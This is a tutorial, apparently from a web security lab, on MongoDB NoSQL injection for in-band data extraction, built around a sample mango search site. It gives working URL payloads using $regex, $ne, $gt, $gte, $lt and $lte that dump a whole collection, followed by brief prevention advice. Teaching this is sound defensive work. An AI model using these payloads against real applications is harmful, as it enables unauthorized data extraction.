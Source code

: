 # In-Band Data Extraction

In traditional SQL databases, in-band data extraction vulnerabilities can often lead to the entire database being exfiltrated. In MongoDB, however, since it is a non-relational database and queries are performed on specific collections, attacks are (usually) limited to the collection the injection applies to.

## MangoSearch Example

The website is a basic search application where you can find facts about various types of mangoes.

### Vulnerable Query

The search form sends a GET request where the search query is passed as `?q=<search term>`. On the server side, the request likely queries the database like this:

```javascript
db.types.find({
    name: $_GET['q']
});
```

### Exploitation Techniques

#### 1) Regex to Match All Documents

Use a RegEx query that matches everything:

```javascript
db.types.find({
    name: {$regex: /.*/}
});
```

URL-encoded payload:
```
?q[$regex]=.*
```

#### 2) Alternative Queries

**$ne (not equal):**
```javascript
db.types.find({
    name: {$ne: 'doesntExist'}
});
```
URL-encoded: `?q[$ne]=doesntExist`

**$gt (greater than):**
```javascript
db.types.find({
    name: {$gt: ''}
});
```
URL-encoded: `?q[$gt]=`

**$gte (greater than or equal):**
```javascript
db.types.find({
    name: {$gte: ''}
});
```
URL-encoded: `?q[$gte]=`

**$lt (less than):**
```javascript
db.types.find({
    name: {$lt: '~'}
});
```
URL-encoded: `?q[$lt]=~`

**$lte (less than or equal):**
```javascript
db.types.find({
    name: {$lte: '~'}
});
```
URL-encoded: `?q[$lte]=~`

## Key Points

- In-band extraction is limited to the specific collection being queried
- Use `$regex: /.*/` to match all documents in the collection
- Alternative operators like `$ne`, `$gt`, `$gte`, `$lt`, `$lte` can achieve similar results
- Always URL-encode special characters in payloads
- The `~` character works well with `$lt`/`$lte` as it's the largest printable ASCII value

## Prevention

- Validate and sanitize user input before passing to MongoDB queries
- Use parameterized queries or input validation
- Implement proper access controls to limit data exposure
- Consider using MongoDB's built-in security features
